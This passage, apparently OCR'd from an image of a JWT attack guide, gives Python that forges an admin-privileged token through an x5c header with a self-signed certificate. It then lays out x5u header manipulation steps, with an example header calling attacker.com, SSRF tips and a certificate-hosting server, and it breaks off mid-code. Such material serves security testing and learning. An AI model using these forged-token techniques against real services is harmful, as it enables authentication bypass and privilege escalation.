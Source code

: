        # Create header with x5c parameter
       header = {
           "alg": "RS256",
           "typ": "JWT",
           "x5c": [cert_b64]
       }
       
       # Create payload with admin privileges
       payload = {
           "sub": "1234567890",
           "name": "John Doe",
           "admin": True,
           "iat": 1516239022
       }
       
       # Create JWT with PEM format private key
       private_pem = private_key.private_bytes(
           encoding=serialization.Encoding.PEM,
           format=serialization.PrivateFormat.PKCS8,
           encryption_algorithm=serialization.NoEncryption()
       )
       
       token = jwt.encode(payload, private_pem, algorithm="RS256", headers=header)
       
       print(token)
       ```

    2. **X5U URL manipulation attack**:
       - Step 1: Generate a self-signed certificate
       - Step 2: Host the certificate on an attacker-controlled server
       - Step 3: Modify a JWT header to include an `x5u` parameter pointing to your certificate
       - Step 4: Modify payload claims as desired
       - Step 5: Sign the token with your private key
       - Step 6: Send the modified token to the server
       - Testing insight: Try SSRF techniques to bypass URL restrictions
       - Exploitation insight: This can also be used for SSRF if the server fetches the URL
       - Example header: `{"alg":"RS256","typ":"JWT","x5u":"https://attacker.com/cert.pem"}`
       - Python server to host certificate:
       ```python
       from http.server import HTTPServer, BaseHTTPRequestHandler
       
       class CertHandler(BaseHTTPRequestHandler):
           def do_GET(self):
               self.send_response(200)
               self.send_header('Content-Type', 'application/x-pem-file')
               self.end_headers()
               with open('certificate.pem', 'rb') as f:
                   self.wfile.write(f.read())
       